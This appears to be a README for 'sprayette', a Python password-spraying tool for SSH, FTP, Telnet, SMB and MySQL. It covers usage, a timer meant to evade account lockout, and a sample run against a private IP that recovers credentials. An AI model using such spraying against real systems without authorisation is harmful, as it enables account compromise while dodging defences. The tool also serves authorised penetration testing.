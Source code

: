 ## PASSWORD SPRAY MULTI USE (PSMU) AKA SPRAYETTE
# Introduction
	The idea of sprayette was to have a tool that it can be used to perform a password spray over multiple 
	services like ssh,ftp,telnet,smb,mysql so far. 
	Also adds the possiblity of a timer for the process, so it can be "less noisy" and in some cases avoid
	an account lockout since its a brute force attack.


# Requisites
	argparse
	time
	telnetlib
	paramiko (SSH)
	mysql.connector
	ftplib

# Usage
	root@kali# ./sprayette.py -h
	usage: sprayette.py [-h] [-p PORT] protocol ip users passwords attemps timer

	positional arguments:
		protocol              Protocol to perform the spray (telnet,ssh,ftp,smb,mysql)
		ip                    The ip to perform the spray
		users                 Users list (one per line)
		passwords             Passwords list (one per line)
		attemps               The amount of attemps before the timer starts
		timer                 The sleep time (minutes)

		optional arguments:
		 -h, --help            show this help message and exit
		 -p PORT, --port PORT

# Example
	root@kali# ./sprayette.py ssh 192.168.0.146 user.txt passwords.txt 2 1
	[*] Trying with misc:qwerty -> Failed!!!
	[*] Trying with neo:qwerty -> Failed!!!
	[*] Trying with root:qwerty -> Failed!!!
	[*] Trying with misc:toor -> Success!!!
	[*] Trying with neo:toor -> Failed!!!
	[*] Trying with root:toor -> Failed!!!
	Going to sleep for 1 minutes
	Back on spray
	[*] Trying with neo:password -> Failed!!!
	[*] Trying with root:password -> Failed!!!
	Obtained the following credentials:
	misc:toor


